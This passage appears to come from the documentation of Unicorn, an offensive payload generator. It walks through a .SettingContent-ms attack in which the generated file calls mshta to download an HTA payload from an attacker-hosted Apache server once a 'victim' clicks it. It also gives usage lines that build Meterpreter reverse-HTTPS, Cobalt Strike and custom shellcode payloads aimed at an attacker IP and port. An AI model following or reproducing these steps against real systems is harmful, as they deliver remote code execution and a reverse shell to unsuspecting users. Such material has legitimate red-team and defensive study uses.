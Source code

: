 The first is a Metasploit payload, the second a Cobalt Strike, the third your own shellcode, and the fourth
just a blank .SettingContent-ms file. 

When everything is generated, it will export a file called Standalone_NoASR.SettingContent-ms either in
the default root Unicorn directory (if using the standalone file generation) or under the hta_attack/
folder. You will need to edit the Standalone_NoASR.SettingContent-ms file and replace:

REPLACECOOLSTUFFHERE

With:

mshta http://<apache_server_ip_or_dns_name/Launcher.hta.

Then move the contents of the hta_attack to /var/www/html.

Once the victim either clicks the .SettingContent-ms file, mshta will be called on the victim machine
then download the Unicorn HTA file which has the code execution capabilites. 

Usage: 

    python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms
    python unicorn.py <cobalt_strike_file.cs cs ms
    python unicorn.py <patth_to_shellcode.txt>: shellcode ms
    python unicorn.py ms

